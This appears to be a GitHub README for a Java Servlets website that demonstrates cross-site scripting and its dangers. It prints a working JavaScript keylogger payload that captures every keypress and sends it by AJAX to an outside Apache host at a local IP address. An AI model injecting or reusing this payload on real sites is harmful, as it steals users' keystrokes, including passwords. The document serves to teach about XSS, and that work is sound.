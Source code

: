 # XSS-Demo
I made this website using *Java Servlets* for giving a demo of **XSS and its dangers**.

I hosted the website on my **Tomcat** Server and used **Apache** for **Keylogging**.

![XSS](https://github.com/Miraj50/XSS-Demo/blob/master/XSS_Demo.gif)

The *payload* used for Keylogging:
```
document.addEventListener('keypress', function() {
	console.log(arguments[0].key); //Testing
	$.ajax({
		type: 'GET',
		url: 'http://192.168.0.105', //apache
		data: { 
			'key': arguments[0].key, 
		},
	});
});
```
